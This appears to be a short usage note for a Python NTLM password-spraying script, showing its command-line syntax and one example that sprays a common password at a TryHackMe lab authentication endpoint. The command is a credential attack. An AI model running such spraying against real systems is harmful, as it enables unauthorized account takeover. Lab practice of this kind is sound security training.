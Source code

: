 
# NTML Password Spray(OWA/RDP/VPN/NetNTLM)

python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurL>
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com



